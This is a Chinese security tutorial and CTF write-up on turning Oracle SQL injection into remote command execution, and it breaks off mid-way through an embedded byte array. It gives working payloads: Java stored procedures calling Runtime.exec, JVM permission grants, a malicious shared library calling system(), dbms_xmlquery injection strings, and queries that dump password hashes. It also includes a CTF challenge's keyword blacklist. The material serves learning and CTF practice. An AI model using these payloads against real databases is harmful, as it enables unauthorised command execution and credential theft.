




# Oracle 注入 RCE 由浅入深 - 先知社区

Oracle 注入 RCE 由浅入深

- - -

# 前言

京麒 CTF ez\_oracle 中出现了 oracle 有关的 rce 注入。但是由于对 oracle 不熟悉导致没写出来，现在来学习一下 oracle 针对于 rce 的学习。

# 环境搭建

oracle 提权是有版本限制的，因此也是比较好玩的 - -，这里选用 oracle 11g 112010  
[https://www.oracle.com/partners/campaign/112010-win64soft-094461.html](https://www.oracle.com/partners/campaign/112010-win64soft-094461.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100758-319a5544-d5de-1.png)

注意这 2 个 zip 都需要下载，然后将他们解压到一个文件夹下，如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100803-34bd6022-d5de-1.png)

最后只要一直往下点下一步就可以安装完毕了，安装完后会让你设置密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100809-3844b704-d5de-1.png)

设置完后就算安装结束了，只不过我这边本地不能用 navicat 去连接数据库。不知道为什么。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100814-3add53b8-d5de-1.png)

安装完后会有一个 product 文件夹，我们随便进去一个，然后进入 BIN 文件夹，就会看见 sqlplus.exe，我们用它连接数据库就好了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100819-3dd64cfa-d5de-1.png)

（图示为简单的命令执行）

# Oracle 表结构&&基础语法查询

### user\_tables

```plain
SQL> desc user_tables;
 Name                                      Null?    Type
 ----------------------------------------- -------- ----------------------------
 TABLE_NAME                                NOT NULL VARCHAR2(128)
 TABLESPACE_NAME                                    VARCHAR2(30)
 CLUSTER_NAME                                       VARCHAR2(128)
 IOT_NAME                                           VARCHAR2(128)
 STATUS                                             VARCHAR2(8)
 PCT_FREE                                           NUMBER
 PCT_USED                                           NUMBER
 INI_TRANS                                          NUMBER
 MAX_TRANS                                          NUMBER
 INITIAL_EXTENT                                     NUMBER
 NEXT_EXTENT                                        NUMBER
 MIN_EXTENTS                                        NUMBER
 MAX_EXTENTS                                        NUMBER
 PCT_INCREASE                                       NUMBER
 FREELISTS                                          NUMBER
 FREELIST_GROUPS                                    NUMBER
 LOGGING                                            VARCHAR2(3)
 BACKED_UP                                          VARCHAR2(1)
 NUM_ROWS                                           NUMBER
 BLOCKS                                             NUMBER
 EMPTY_BLOCKS                                       NUMBER
 AVG_SPACE                                          NUMBER
 CHAIN_CNT                                          NUMBER
 AVG_ROW_LEN                                        NUMBER
 AVG_SPACE_FREELIST_BLOCKS                          NUMBER
 NUM_FREELIST_BLOCKS                                NUMBER
 DEGREE                                             VARCHAR2(10)
 INSTANCES                                          VARCHAR2(10)
 CACHE                                              VARCHAR2(5)
 TABLE_LOCK                                         VARCHAR2(8)
 SAMPLE_SIZE                                        NUMBER
 LAST_ANALYZED                                      DATE
 PARTITIONED                                        VARCHAR2(3)
 IOT_TYPE                                           VARCHAR2(12)
 TEMPORARY                                          VARCHAR2(1)
 SECONDARY                                          VARCHAR2(1)
 NESTED                                             VARCHAR2(3)
 BUFFER_POOL                                        VARCHAR2(7)
 FLASH_CACHE                                        VARCHAR2(7)
 CELL_FLASH_CACHE                                   VARCHAR2(7)
 ROW_MOVEMENT                                       VARCHAR2(8)
 GLOBAL_STATS                                       VARCHAR2(3)
 USER_STATS                                         VARCHAR2(3)
 DURATION                                           VARCHAR2(15)
 SKIP_CORRUPT                                       VARCHAR2(8)
 MONITORING                                         VARCHAR2(3)
 CLUSTER_OWNER                                      VARCHAR2(128)
 DEPENDENCIES                                       VARCHAR2(8)
 COMPRESSION                                        VARCHAR2(8)
 COMPRESS_FOR                                       VARCHAR2(30)
 DROPPED                                            VARCHAR2(3)
 READ_ONLY                                          VARCHAR2(3)
 SEGMENT_CREATED                                    VARCHAR2(3)
 RESULT_CACHE                                       VARCHAR2(7)
 CLUSTERING                                         VARCHAR2(3)
 ACTIVITY_TRACKING                                  VARCHAR2(23)
 DML_TIMESTAMP                                      VARCHAR2(25)
 HAS_IDENTITY                                       VARCHAR2(3)
 CONTAINER_DATA                                     VARCHAR2(3)
 INMEMORY                                           VARCHAR2(8)
 INMEMORY_PRIORITY                                  VARCHAR2(8)
 INMEMORY_DISTRIBUTE                                VARCHAR2(15)
 INMEMORY_COMPRESSION                               VARCHAR2(17)
 INMEMORY_DUPLICATE                                 VARCHAR2(13)
 DEFAULT_COLLATION                                  VARCHAR2(100)
 DUPLICATED                                         VARCHAR2(1)
 SYNCHRONOUS_DUPLICATED                             VARCHAR2(1)
 SHARDED                                            VARCHAR2(1)
 EXTERNALLY_SHARDED                                 VARCHAR2(1)
 EXTERNALLY_DUPLICATED                              VARCHAR2(1)
 EXTERNAL                                           VARCHAR2(3)
 HYBRID                                             VARCHAR2(3)
 CELLMEMORY                                         VARCHAR2(24)
 CONTAINERS_DEFAULT                                 VARCHAR2(3)
 CONTAINER_MAP                                      VARCHAR2(3)
 EXTENDED_DATA_LINK                                 VARCHAR2(3)
 EXTENDED_DATA_LINK_MAP                             VARCHAR2(3)
 INMEMORY_SERVICE                                   VARCHAR2(12)
 INMEMORY_SERVICE_NAME                              VARCHAR2(1000)
 CONTAINER_MAP_OBJECT                               VARCHAR2(3)
 MEMOPTIMIZE_READ                                   VARCHAR2(8)
 MEMOPTIMIZE_WRITE                                  VARCHAR2(8)
 HAS_SENSITIVE_COLUMN                               VARCHAR2(3)
 ADMIT_NULL                                         VARCHAR2(3)
 DATA_LINK_DML_ENABLED                              VARCHAR2(3)
 LOGICAL_REPLICATION                                VARCHAR2(8)
 STAGING                                            VARCHAR2(3)
 ROW_CHANGE_TRACKING                                VARCHAR2(3)
 HAS_RESERVABLE_COLUMN                              VARCHAR2(3)
```

该表比较重要，是当前用户表，里面储存着该用户的所有信息。

### dba\_tables

dba 权限用户才可以查看的表，里面有系统里所有信息。表的结构和上述的 user\_tables 一致

### all\_tables

当前用户可以查看的所有表，表结构也一样

### other

-   DBA\_ALL\_TABLES：DBA 用户所拥有的或有访问权限的对象和表
-   ALL\_ALL\_TABLES：某一用户拥有的或有访问权限的对象和表
-   USER\_ALL\_TABLES：某一用户所拥有的对象和表

表的结构都一样

### 获取常见信息

-   版本：`SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';`或者`SELECT version FROM v$instance;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100832-45f8d2ae-d5de-1.png)

-   操作系统版本：`select banner from v$version where banner like 'TNS%'`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100838-49618198-d5de-1.png)

-   当前数据库：`select global_name from global_name;`，`select name from v$database;`,`select instance_name from v$instance`,`select sys.database_name from dual;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100844-4cf8d37e-d5de-1.png)

-   获取当前用户权限的所有数据库：`select distinct owner,table_name from all_tables;`
-   获取所有表名：`select table_name from all_tables;`
-   获取所有字段名：`select column_name from all_tab_columns where table_name='xxx';`
-   获取当前用户：`select user from dual;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100849-50064114-d5de-1.png)

-   获取所有数据库用户：`select username from all_users order by username;`、`select name from sys.user$;`
-   获取数据库用户的密码 hash：`SELECT name, password, astatus FROM sys.user$;`、`SELECT name, spare4 FROM sys.user$;`
-   当前用户的所有权限：`select * from session_privs;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100853-5256ef40-d5de-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100857-549abcd2-d5de-1.png)

-   获取用户角色 (DBA OR DBO)：`select grantee,granted_role from dba_role_privs;`或者`select distinct grantee from dba_sys_privs;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100901-574ac44a-d5de-1.png)

### 特性

在 oracle 中字符串的连接符用`||`，并且单引号和双引号表示的意思也不一样  
`'xxx'`表示的是 xxx 这个字符串，而`"xxx"`就等价于一个变量 xxx，这是不同的点，需要注意，另外 oracle 需要严格的 select from 语法，我们需要`select xxx from dual`

# CURD

oracle 的增删改查和 mysql 其实差不多。

### 建表

```plain
CREATE TABLE test1 (
    tid NUMBER,
    tname VARCHAR2 ( 20 )
);

-- 或直接 copy 别的表结构

CREATE TABLE emp20 AS SELECT
*
FROM
    EMP
WHERE
    DEPTNO = 20;-- where 条件有效，复制数据，无效，只复制表结构
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100910-5c8dd3e8-d5de-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100914-5ec00028-d5de-1.png)

### 增加新列

`ALTER TABLE test1 ADD photo VARCHAR2(20);`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100918-611e005e-d5de-1.png)

### 修改列

修改 tname 列的 varchar 长度为 40  
`ALTER TABLE test1 MODIFY tname VARCHAR2 ( 40 );`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100923-643a50f8-d5de-1.png)

### 删除列

`ALTER TABLE test1 DROP COLUMN photo2;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100929-677c33ee-d5de-1.png)

### 重命名某列

`ALTER TABLE test1 RENAME COLUMN tname TO username;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100934-6abc228a-d5de-1.png)

### 重命名表

`RENAME test1 TO test2;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100938-6d16b81a-d5de-1.png)

### 删除表

`DROP TABLE testLearn;`

### 插入数据

`insert into test(tid,username,photo) values(100,'test','test');`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100944-7091a068-d5de-1.png)

### 更新数据

`update test set username='admin' where tid=100;`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100949-73ee38a2-d5de-1.png)

### 删除数据

`delete from xxx where xxx=xxx`  
其实增删改查操作和 mysql 数据库完全一致。没什么不一样的

# Java Source

### 创建 Java source

oracle 有一个特别的地方就是他可以创建 java 代码，并且编译运行，也就是说假如我们获取了一个 oracle 数据库的 dba 权限，那么我们就获取了任意 Java 代码执行的权限。这是比较危险的一个特性

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100956-77d7e4cc-d5de-1.png)

官方是给了一个例子的，它使用的语法是  
`CREATE JAVA SOURCE NAMED "xxxx" AS <Java Code>`  
使用这一段语法可以创建一段 java 源码保存为 oracle 的一个对象，现在我使用如上语法创建一个输出 hello world 的函数。

```plain
CREATE JAVA SOURCE NAMED "Hello" AS
   public class Hello {
      public static String say() {
         return "Welcome World";   } }
/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101003-7bdb3a92-d5de-1.png)

### 查询 Java Souce Object ID

`select OBJECT_ID from all_objects where object_name ='Hello';`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101013-81d0502c-d5de-1.png)

这里有 2 个的原因是我创建了 2 个。所以会有这样的 bug，不过影响不大。

### 高效语法

为了避免上述的问题，根据官方 doc

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101019-85674628-d5de-1.png)

我们可以将语句改造为

```plain
CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "Hello" AS
   public class Hello {
      public static String say() {
         return "Welcome World";   } }
/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101024-887926ba-d5de-1.png)

### 删除 Java Source

`DROP JAVA SOURCE "Hello"`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101028-8b1f0ad8-d5de-1.png)

### Function

有了 Java source 后我们就可以利用 function 去创建一个 oracle 函数，便于我们后续调用命令  
创建 Java Source

```plain
CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "Hello" AS
   public class Hello {
      public static String say(String nothing) {
         return "Welcome World";   } }
/
```

创建 Function  
`create or replace function say(nothing in varchar2) return varchar2 as language java name 'Hello.say(java.lang.String) return String'`  
调用 Function

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101035-8f405fa4-d5de-1.png)

### 赋权问题

这里其实会有权限问题，因为我之前设置过，当我们创建完 Fucntion 后调用，其实是不会执行的，因为需要给用户加权限

```plain
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.io.FilePermission','<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.lang.RuntimePermission','writeFileDescriptor',NULL,'ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.lang.RuntimePermission','readFileDescriptor',NULL,'ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```

上述 3 个语句分别对应 3 个赋值，一般假如是 DBA 的话用第一个语句就可以了，我们只缺少 FilePermission，假如有别的会在报错信息中显示，我们只要添加对应权限即可。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101043-93d630de-d5de-1.png)

上述所讲到的也就是 Oracle 中命令执行的核心了，即调用任意 Java 代码，

# Lib 加载

oracle 也可以和 mysql 一样加载一个 so 文件，因此这里其实也有命令执行的隐患，我们可以如此命令执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101048-96caf946-d5de-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101051-98d11f72-d5de-1.png)

官方文档中也是给出了我们如何添加第三方 lib 的方法。我们首先需要自己编译生成一个恶意 so 文件。

```plain
#include "evil.h"
#include <stdio.h>
#include <stdlib.h>

char* cmd(char* command) {
system(command);
return "ok";
}
```

evil.h

```plain
#ifndef evil_h_
#define evil_h_

extern char* cmd(char* command);

#endif
```

然后将其编译为恶意的 so 文件。  
`gcc -shared -fPIC evil.c -o evil.so`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101101-9e97f8ea-d5de-1.png)

之后我们和上述说的 Java source 的创建方式一样，创建一个 Lib

```plain
create or replace library lib_evil as '/home/oracle/evil.so';
/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101106-a1751c6e-d5de-1.png)

成功创建 Lib 后也是创建一个 function，以 lib 里的代码为模板，这里参考一下网址  
[https://medium.com/codex/extending-the-sql-and-pl-sql-with-custom-external-functions-and-procedures-214067761061](https://medium.com/codex/extending-the-sql-and-pl-sql-with-custom-external-functions-and-procedures-214067761061)

```plain
create or replace function cmd(str varchar2) return varchar2 as language c library lib_evil name "cmd";
```

创建好后直接运行会出现如下情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101120-a9ffe850-d5de-1.png)

报错 Extproc agent:Invalid DLL Path，这一点上述文章中有提到，我们需要设置一下 dll path  
我们在`$ORACLE_HOME/hs/admin/extproc.ora`文件的末尾加上一行代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101127-ae22293e-d5de-1.png)

这样设置完后我们再次执行系统命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101132-b0dec0e2-d5de-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101136-b356e336-d5de-1.png)

成功的执行了系统命令

# Oracle 注入下的 RCE

上述介绍的`Java Source`、`Function`、`Lib`是 RCE 的几个原理，那在实际环境中，我们从外部注入，只能执行单条语句的时候，我们该怎么办呢？

## dbms\_xmlquery

影响版本：oracle 10g、11g，部分版本  
这里我的环境是 11.0.2.0 版本。  
在上述低版本中这个函数才可以进行 RCE，高版本都被修复了，这个函数本身是用来解析一段 XML 内容的，但是可以用来执行我们的 SQL 指令，可以把多条语句一起执行，起到多语句执行的目的

```plain
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101145-b884751c-d5de-1.png)

```plain
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101150-bc0926c4-d5de-1.png)

然后可以查询一下 object 是否存在

```plain
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD';
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101156-bf7f40c2-d5de-1.png)

最后直接命令执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101200-c1c8139a-d5de-1.png)

## sql storage

这个方法其实就是和 sh 文件一样，把多个语句放到一个 sql 文件，然后让 oracle 执行。也就是说我们需要有一个任意文件写入的点位  
permission.sql

```plain
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 
'GRANT',USER(),'SYS','java.io.FilePermission',
'<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```

rce.sql

```plain
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
public class oraexec
{
    public static String execCommand(String command) throws IOException, InterruptedException {
        Runtime rt = Runtime.getRuntime();
        int bufSize = 4096;
        byte buffer[] = new byte[bufSize];
        String rc = "";
        int len;
        try{
            Process p = rt.exec(command);
            BufferedInputStream bis =
                    new BufferedInputStream(p.getInputStream(), bufSize);
            while ((len = bis.read(buffer, 0, bufSize)) != -1){
                rc += new String(buffer).split("\0")[0];;
            }
            bis.close();
            p.waitFor();
            return rc;
        } catch (Exception e) {
            rc = e.getMessage();
        }
        finally
        {
            return rc;
        }
    }
}
/
create or replace
function javae(p_command in varchar2) return varchar2
as
language java
name 'oraexec.execCommand(java.lang.String) return String';
/
```

把这两个文件放到一个位置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101211-c831e0da-d5de-1.png)

最后就直接 rce 了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101215-caba2f74-d5de-1.png)

## dbms\_java.runjava/dbms\_java\_test\_funcall

```plain
-- 11g
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper touch /tmp/success') FROM DUAL;

-- 10g/11g, 注意 10g 中还需要 readFileDescriptor 和 writeFileDescriptor
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/sbin/ifconfig>/tmp/1.txt') FROM DUAL;
```

当然这几种我都无法实现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228101220-cdd09900-d5de-1.png)

提示没有 wrapper 类，说明还是少了什么文件的。

# \[京麒 CTF 2023\] ez\_oracle

参考：[https://exp10it.cn/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez\_oracle-writeup/#ez\_oracle](https://exp10it.cn/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez_oracle-writeup/#ez_oracle)

```plain
import logging

import oracledb
from flask import Flask, request
import socket

app = Flask(__name__)
username = "system"
password = "PaAasSSsSwoRrRDd"
ol_server = "127.0.0.1"
ol_port = 1521
sid = "orcl"
dsn = "{}:{}/{}".format(ol_server, ol_port, sid)
logging.basicConfig(level=logging.INFO, filename='/var/log/web.log', format='%(asctime)s %(message)s')


def check(sql):
    blacklist = ["select", "insert", "delete", "update", "table", "user", "drop", "alert", "procedure", "exec",
                 "open", ":=", "declare", "runtime", "process", "invoke", "newinstance", "parse",
                 ".class", "loader", "script", "url", "xml", "method", "field", "reflect", "defineclass",
                 "getclass", "forname", "constructor", "transform", "sql", "beans", ".net", "http", ".rmi", "naming"
                 ]
    sql = sql.lower()
    for blackword in blacklist:
        if blackword in sql:
            return True


def log(ip, sql, error=None):
    error_text = "-----------------------{}-----------------------\n".format(ip)
    error_text += "sql: {} \n".format(sql)
    if error != None:
        error_text += "error: {} \n".format(error)
    error_text += "-------------------------------------------------"
    logging.error(error_text)


@app.route("/query", methods=["POST"])
def query():
    sql = request.form["sql"]
    ip = request.remote_addr
    if check(sql):
        return "waf"
    else:
        try:
            conn = oracledb.connect(user=username, password=password, dsn=dsn)
            conn.callTimeout = 5000
            cursor = conn.cursor()
            cursor.execute(sql)
            cursor.close()
            conn.close()
            log(ip, sql)
        except Exception as e:
            log(ip, sql, e)
            return "error"
        return "query success"


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8888)
```

题目就是这样，一个 oracle 注入，做了一些过滤，然后是任意 sql 语句执行。然后这一题首先我们是不可以使用任何 Java 代码中的 RCE 函数。首先 oralce 内置的 jdk 好像是 1.6，其次题目 waf 中过滤了所有命令执行函数，因此是行不通的（System.load 确实也不可以)  
那么这一题的思路其实就回到了之前讲到的 lib 加载了，和 mysql 的 udf 提权有点类似，写一个恶意 so 进去，然后给他注册了。  
首先创建 Java Source，创建起来，可以看到后台是创建成功了的

```plain
sql=create or replace and compile java source named "JavaTool" as
import java.io.ByteArrayInputStream;
import java.io.FileOutputStream;
import java.util.zip.GZIPInputStream;

public class JavaTool {
    public static String write(String path) throws Exception {
        byte[] data = new byte[]{31, -117, 8, 0, 0, 0, 0, 0, 0, 0, -19, 91, 93, 108, 20, 85, 20, -66, -77, 109, -23, 46, -108, -18, -126, 32, -40, -94, 93, 12, 24, 80, 58, -108, 74, 17, -123, 66, -37, -19, -74, -125, 105, 11, -42, -10, -127, 4, 25, -90, 59, -45, 118, 113, 127, -56, -18, -76, -76, 13, 106, -123, -88, 52, -124, -124, -60, -104, 24, 72, 12, 15, -58, -97, -60, -8, -128, 47, -6, 100, 73, 21, -15, -25, 1, 19, 77, 26, -115, 73, 19, 67, 44, -119, 81, -120, -47, 84, 19, -69, -34, 59, 115, -50, 118, -26, 50, 35, -8, -128, -119, -15, 126, -55, -52, 55, -25, -36, -5, -35, -65, -103, 114, 103, -40, 115, -98, -117, 119, -76, 5, 36, -119, 32, 74, -56, 46, -78, 96, 17, -46, 4, 28, 105, 112, -6, -74, -109, 16, 61, -81, 33, -43, 86, -35, 82, -30, -113, 87, 75, -35, 76, 34, 54, 49, 93, -103, -61, -26, -71, 65, 114, -77, 83, 103, 53, 21, 5, 63, -57, -81, 19, 55, 59, 117, -117, -24, 49, 87, 107, -37, 115, -115, 110, 94, 29, -128, 102, 2, 110, 93, 0, 116, 65, -39, -74, -125, -69, -36, 60, 41, -71, 57, 8, -14, 82, 56, -74, 67, 123, 60, -81, 35, 110, -58, -27, -39, 119, -43, -44, 45, 45, -52, -121, 103, 63, -35, 19, 84, -73, -120, -36, 62, 112, -71, -69, -95, 63, -65, 117, 9, 6, -36, -116, -73, -125, 105, 86, 16, -10, -68, 16, -46, -34, -43, 75, -50, 79, -67, 123, -19, -36, -15, 49, -93, -4, -21, -122, 29, 114, -29, -101, -83, 103, 107, -109, 7, 89, 61, 92, 63, 92, 127, 112, 89, -83, 49, 123, -76, -1, -28, -110, 91, -115, 51, -22, -31, -33, 79, -113, -27, 30, 126, -55, -89, -2, 38, 31, 127, 27, 61, -18, -9, -16, -9, 90, -19, 87, -112, -48, 50, -37, 94, -117, 5, -86, 58, -112, -50, 102, -44, -68, -87, -27, 76, 85, 37, -22, -98, -98, 78, 85, 55, 114, -58, 64, 50, 111, 26, -71, -98, -50, 88, 42, -101, 49, 122, -76, -66, -108, 97, -105, 121, -105, -88, -119, 17, 77, -19, 79, 102, -76, 84, 114, -52, 32, -119, -76, 78, -14, -93, -76, 86, -102, -92, -110, 125, 9, 57, -97, -107, -73, -111, -10, -114, 61, 45, 49, -75, 94, -82, -105, 27, -84, 121, 5, -24, 97, -97, -19, 121, 74, -28, 16, 89, -72, -113, 67, 85, -55, 16, 91, -42, -61, 96, 23, -17, 31, -114, 27, -26, 65, 118, -71, -3, -109, -48, 64, -80, -55, -19, 71, -5, -14, 110, -101, -15, 30, 34, -82, 56, -4, 37, 14, -1, -76, -61, -17, -4, 119, 97, -58, -31, 47, 115, 46, 52, -12, 83, 78, -32, -95, 16, 16, 16, 16, 16, 16, 16, 16, 16, 16, 16, -72, 99, 80, 78, -4, 24, 84, 78, -107, 125, -68, -103, 94, -66, 48, 105, 6, 10, 87, -108, 19, 31, 5, -89, -118, -27, -123, -122, -49, 104, 81, 97, -3, 23, -12, 28, -82, 105, -94, 87, -52, 30, 100, 69, -41, 102, 10, 20, -21, -49, 82, -69, -1, 76, -79, -67, -45, -115, 31, -80, -74, 78, -105, 93, 96, -12, -24, -100, -71, -110, 54, 127, 16, -102, 15, 21, 102, -62, 53, -29, -84, -34, 20, 48, -83, 63, 97, -43, 111, 56, -50, 104, -29, -68, 50, 113, 93, -71, -8, -45, 110, -27, -30, 92, -119, 34, 93, 82, -66, -100, 55, 87, -48, 6, 106, -95, -127, 96, 97, -90, 63, 92, -45, -70, -96, -1, 37, 124, -33, 31, -29, -115, 113, 90, 76, -122, 30, -22, 85, 78, 52, 46, 102, -105, -54, -60, 85, -77, 66, 57, -43, -8, 0, 53, 102, -9, -45, 81, -50, -22, -12, 116, -87, -20, 94, 106, 75, 79, 81, -83, 75, 127, -19, 40, 45, -20, -91, 26, -70, 24, 